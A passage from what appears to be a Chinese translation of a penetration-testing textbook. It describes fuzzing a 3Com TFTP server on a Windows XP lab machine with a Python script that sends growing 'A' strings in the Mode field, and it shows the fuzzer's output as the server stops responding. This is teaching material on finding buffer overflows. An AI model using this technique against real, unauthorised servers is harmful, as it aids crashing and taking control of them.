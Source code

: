 我们的数据包符合 TFTP RFC 的规范。我们使用了 `02` 模式（写请求）和文件名 *Georgia*。我们从数组中提取的 *A* 字符串被放入 Mode 字段中。希望我们不断增长的字符串能够导致崩溃。

设置我们的网络套接字与我们在上一章中攻击 FTP 时学到的稍有不同。因为 TFTP 是 UDP 协议，我们需要设置一个 UDP 套接字，而不是 TCP 套接字，所以语法稍有不同 ❻。将 Python 代码保存为 *tftpfuzzer*，并使其可执行。

在我们开始发送模糊测试数据包之前，切换回你的 Windows XP 机器，并使用 Immunity Debugger 附加到 *3CTftpSvc* 进程，如 图 19-1 所示。这样，如果我们引起崩溃，就能查看内存内容，验证是否已经控制了 EIP。（不要忘了点击 Immunity Debugger 窗口顶部的播放按钮，让程序继续运行。）

![附加 Immunity Debugger 到 3Com TFTP 服务器](img/httpatomoreillycomsourcenostarchimages2030580.png.jpg)图 19-1. 附加 Immunity Debugger 到 3Com TFTP 服务器

现在，在 示例 19-4 中，我们运行了在 示例 19-3 中创建的 TFTP 模糊测试程序。

示例 19-4. 测试 3Com TFTP

```
root@kali:~# **./tftpfuzzer**
Fuzzing with length100
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00',❶ ('192.168.20.10', 4484))
Fuzzing with length 200
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4485))
Fuzzing with length 300
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4486))
Fuzzing with length 400
('\x00\x05\x00\x04Unknown or unsupported transfer mode : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00', ('192.168.20.10', 4487))
Fuzzing with length 500
('\x00\x05\x00\x04Unk\x00', ('192.168.20.10', 4488))
Fuzzing with length 600 ❷
```
